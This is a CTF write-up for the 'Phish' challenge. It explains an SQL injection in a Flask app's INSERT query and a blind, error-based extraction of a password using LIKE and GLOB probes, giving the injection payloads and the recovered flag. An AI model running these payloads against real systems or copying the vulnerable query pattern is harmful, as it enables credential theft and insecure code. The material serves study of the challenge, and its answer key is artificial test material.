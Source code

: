 # Phish

## Medium

## Description
Shou is so dumb that he leaks his password (flag) to a phishing website.<br/><br/>
Note: The flag contains underscore<br/><br/>
Host 1 (San Francisco): phish.sf.ctf.so<br/>
Host 2 (Los Angeles): phish.la.ctf.so<br/>
Host 3 (New York): phish.ny.ctf.so<br/>
Host 4 (Singapore): phish.sg.ctf.so<br/>

[Source Code](Assets/phish)

# Solution
## Discovery
### Source Code
We browse [main.py](Assets/phish/main.py), and find the code that is responsible for sending the data to the database<br/>
```Python
@app.route("/add", methods=["POST"])
def add():
    username = request.form["username"]
    password = request.form["password"]
    sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
    try:
        db.execute_sql(sql)
    except Exception as e:
        return f"Err: {sql} <br>" + str(e)
    return "Your password is leaked :)<br>" + \
           """<blockquote class="imgur-embed-pub" lang="en" data-id="WY6z44D"  ><a href="//imgur.com/WY6z44D">Please 
        take care of your privacy</a></blockquote><script async src="//s.imgur.com/min/embed.js" 
        charset="utf-8"></script> """
```
More importantly, focus on this section of the code:
```Python
sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
```
This is vulnerable to SQL Injection attacks<br/><br/><br/>



### SQL Injection
A quick example of using SQL Injection with the above style of code is shown below
```Python
>>> password = "abc"
    username = "(SELECT * FROM xyz)') -- "
    sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
    print(sql)
    
#   INSERT INTO `user`(password, username) VALUES ('abc', '(SELECT * FROM xyz)') -- ')
```
As we can see, it will allow us to `SELECT` columns from tables, or perform other actions<br/><br/><br/><br/><br/>



## Exploit
### Acquring characters present in password
We intend to acquire the characters present in the password by brute-forcing it through SQL queries like this, where `---HERE---` is the character we are testing
```SQL
INSERT INTO `user`(password, username) VALUES ('a',(SELECT password FROM user WHERE username = "shou" AND password LIKE "%---HERE---%")); --', 'abc'')
```
<br/>
To explain how this works, we will first analyse the `SELECT` statement<br/>

```SQL
SELECT password FROM user WHERE username = "shou" AND password LIKE "%---HERE---%"
```
We know that there is a username `shou` with the password as the flag<br/>
Hence, we can check if a character is present in the password by adding a condition where `password LIKE "%---HERE---%"`<br/>
This works by using the `LIKE` condition, along with the multiple character wildcard, `%`<br/><br/>

If the character is present, our query will return: `UNIQUE constraint failed: user.username`<br/> 
This is because the `SELECT` statement returns `shou`, but `shou` has already been phished, and his username is present, thus we are unable to create a new row with the username `shou`<br/>

If the character is not in the password, our query will return: `NOT NULL constraint failed: user.username`<br/>
This is because SQLite expects a string to be there, yet nothing is selected since `shou`'s password does not contain the character<br/><br/>

To implement this, we send this as the POST data, where `{i}` the character we are testing:<br/>
- username : `abc,`<br/>
- password : `a',(SELECT password FROM user WHERE username = "shou" AND password LIKE "%{i}%")); --`<br/><br/><br/><br/><br/>





### Brute-forcing password
After acquring all the characters present in the password, we need to figure out how the characters are strung together<br/>
At first, we tried a very similar approach using `LIKE "---HERE---%"` as a condition in the `SELECT` statement<br/><br/>

However, `LIKE` is **case insensitive**. ie, `"a" LIKE "a"` is `True`, and `"A" LIKE "a"` is also `True`<br/>
The flag is **case sensitive**, hence we needed to find another operator<br/><br/>

Introducing `GLOB`, it is similar to `LIKE`, just that it is **case sensitive**<br/>
`GLOB` has `*` as a wildcard, and can accept REGEX queries<br/><br/>

We then use a similar injection as the first portion, where we want the following query to run, where `---HERE---` is a portion of the flag:
```SQL
INSERT INTO `user`(password, username) VALUES ('a',(SELECT password FROM user WHERE username = "shou" AND password GLOB "---HERE---*"));--', 'abc')
```

Similar to the first portion, if the segment of the flag is correct, it returns `UNIQUE constraint failed: user.username`<br/>

If the segment is incorrect, it returns `NOT NULL constraint failed: user.username`<br/><br/><br/><br/><br/>





## Script
Hence, we created a [short Python script](Assets/solve.py) to solve for the flag<br/>
Since we are not allowed to send >100 requests per second, we added `time.sleep(0.1)` to limit our requests to at most 10 per second<br/>

> we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P}
